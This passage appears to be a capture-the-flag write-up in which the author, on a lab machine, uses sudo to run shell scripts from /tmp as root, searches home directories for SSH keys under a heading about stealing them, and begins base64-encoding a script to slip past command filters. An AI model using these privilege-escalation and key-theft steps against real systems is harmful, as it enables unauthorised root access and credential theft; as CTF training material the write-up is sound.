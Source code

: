 This unfortunately failed; but lets test if the shell script actually runs? It may be an error on our behalf.

```
touch /tmp/y.sh;
printf 'touch /tmp/works.txt; whoami | printf > /tmp/works.txt;' > /tmp/y.sh;
sudo sh /tmp/y.sh;
ls -lah /tmp/;
```

The script _is_ running as `root`, so we're _really_ close. See the `works.txt` file.

```
total 40K
drwxrwxrwt  8 root     root     4.0K Sep 13 14:33 .
drwxr-xr-x 23 root     root     4.0K Sep 13 12:50 ..
drwxrwxrwt  2 root     root     4.0K Sep 13 12:50 .ICE-unix
drwxrwxrwt  2 root     root     4.0K Sep 13 12:50 .Test-unix
drwxrwxrwt  2 root     root     4.0K Sep 13 12:50 .X11-unix
drwxrwxrwt  2 root     root     4.0K Sep 13 12:50 .XIM-unix
drwxrwxrwt  2 root     root     4.0K Sep 13 12:50 .font-unix
prw-r--r--  1 www-data www-data    0 Sep 13 14:04 f
drwx------  3 root     root     4.0K Sep 13 12:50 systemd-private-a938bdfc8fce449a9ca1d228a57f00d8-systemd-timesyncd.service-oSRCc2
-rw-r--r--  1 root     root        0 Sep 13 14:33 works.txt
-rw-r--r--  1 www-data www-data   63 Sep 13 14:30 x.sh
-rw-r--r--  1 www-data www-data   55 Sep 13 14:33 y.sh

```

It seems like it's the `printf` that didn't work, as there're no bytes in the file. Lets try `echo` instead.

```
touch /tmp/y.sh;
echo 'touch /tmp/works2.txt; whoami | echo > /tmp/works2.txt;' > /tmp/y.sh;
sudo sh /tmp/y.sh;
ls -lah /tmp/;
```

Hmm. As we DO have root. Let's see if we can steal some SSH files from either `rick` or `ubuntu`.

#### Stealing SSH files instead..

We know we can perform route actions, we just can't use `cat` or `head` .etc ... Little bit annoying, but, we do have more options. Lets see if there are some SSH keys we can acquire.

`sudo ls -lah /home/rick`

And heh, we've found the `second ingredient` file at least...

Though, the aren't any SSH files for rick.

`ls -lah /ubuntu/.ssh` has also been _wiped_. Annoyingly.

#### Lets get dirty, and create an encoded script

I'm going to encode the previous script with base64, then on the victim machine, decode the text into our shell script...
